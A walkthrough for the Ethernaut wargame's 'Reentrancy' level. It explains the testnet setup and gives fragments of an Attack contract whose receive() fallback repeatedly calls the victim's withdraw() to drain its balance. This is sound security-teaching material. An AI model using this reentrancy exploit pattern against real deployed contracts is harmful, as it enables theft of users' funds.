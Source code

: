 # 10: Reentrancy

The Ethernaut is a Web3/Solidity based wargame inspired by overthewire.org, played in the Ethereum Virtual Machine, in which each level is based on a smart contract that needs to be "hacked".

This is a sample walkthrough for the level called "Reentrancy".

## Setup

First off we need a wallet. Get the Metamask Wallet from https://metamask.io/ and choose whichever network works for you ( in my case i will be using Rinkeby's testnet).
Fund the wallet with Chainlink's faucet https://faucets.chain.link/rinkeby and then click on the button "Get new instance" to deploy the contract.

## Steps for completing the level
Click on F12 to get on Developer Tools. You will get something like this:

<img src="./images/image1.png">

Go on Remix: https://remix.ethereum.org/ and make this change in Reentrancy.sol. 

Copy the Reentrancy.sol contract found before "submit instance" and "get new instance" buttons.

At Reentrancy.sol i made this next changes:
>- <value> 1. Pragma version from **0.6.0** to **0.8.0**
>- <value> 2. Change **"@openzeppelin/contracts/math/SafeMath.sol"** with **"./SafeMath.sol"**

This level asks us to withdraw all the funds from the Reentrancy contract. Our single solution is to create another contract called Attack, who's gonna hack into the Reentrancy contract by using 3 new functions: donate() for sending eth, withdraw() for withdrawing the funds and receive() who's gonna keep calling the victim contract Reentrancy.

Before making the Attack contract, create a new interface called IReEntrance which we gonna use:
>- <value> function donate(address _to) external payable;
>- <value> function withdraw(uint _amount) external;}

At the Attack contract add the constructor and the functions:
>- <value> 1. constructor(address _victimAddress) {
>- <value> victimContract = IReEntrance(_victimAddress);
>- <value> 2. function balance() public view returns (uint) {
>- <value> return address(this).balance;}
>- <value> 3. function donate() public payable {
>- <value> require(msg.value == donationValue, "Value should be 500000000000000 Wei");
>- <value> 4. function withdraw() public payable {
>- <value> victimContract.withdraw(donationValue);
>- <value> require(msg.sender == owner, "Not the owner");
>- <value> uint contractBalance = address(this).balance;
>- <value> 5. receive() external payable {
>- <value> uint victimBalance = address(victimContract).balance;
>- <value> if (victimBalance >= donationValue) {
>- <value>   victimContract.withdraw(donationValue);}}

It should look something like this:

<img src="./images/image2.png">
<img src="./images/image3.png">

Compile the Reentrancy.sol contract:

<img src="./images/image4.png">

 Instead of deploying Reentrancy.sol we are going to interact with the already deployed contract by using instance's address showed on Developer Tools and we will be deploying ourselves the Attack.sol contract to the Rinkeby's Testnet. Also, dont forget to add your wallet on Environment by selecting "Injected Provider - Metamask".

<img src="./images/image5.png">

First on input 0.0005 eth (5e14 wei) before using the donate function:

<img src="./images/image6.png">

Use the donate button from Attack contract and then you can see that the balance of Reentrancy contract went up: 

<img src="./images/image7.png">

Withdraw it all with the withdraw function from the Attack contract and then check the left balance of Reentrancy contract:

<img src="./images/image8.png">

Wow, congrats!! You have managed to withdraw all the funds by using a Re-entrancy Attack and have completed this level.

Now finish the level by using the submit button at the bottom of the page.

Congrats! See you on to the next level.:wave: